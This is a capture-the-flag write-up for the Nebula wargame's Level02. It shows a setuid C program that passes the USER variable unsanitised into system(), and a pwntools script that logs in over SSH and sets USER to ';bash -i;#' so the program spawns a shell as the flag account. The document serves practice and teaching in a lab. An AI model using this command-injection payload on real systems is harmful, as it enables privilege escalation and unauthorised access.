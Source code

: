 # Level02

> There is a vulnerability in the below program that allows arbitrary programs to be executed, can you find it?
>
> To do this level, log in as the **level02** account with the password **level02**. Files for this level can be found in /home/flag02.

#### Source Code

```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  char *buffer;

  gid_t gid;
  uid_t uid;

  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  buffer = NULL;

  asprintf(&buffer, "/bin/echo %s is cool", getenv("USER"));
  printf("about to call system(\"%s\")\n", buffer);
  
  system(buffer);
}
```

***

#### Python Automation

```python
from pwn import *
from sys import argv, exit

# Check if IP address is provided as an argument
if len(argv) < 2:
    sys.exit("IP address not found.")

# Establishes SSH connection with target IP address
session = ssh(host=argv[1], user='level02', password='level02')

# start a remote shell
terminal = session.shell()

# Changing USER environment variable
terminal.sendline("export USER=';bash -i;#'")

# Executing target binary
terminal.sendline('/home/flag02/flag02')
terminal.sendline("getflag")

terminal.interactive()
```

<figure><img src="../../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>
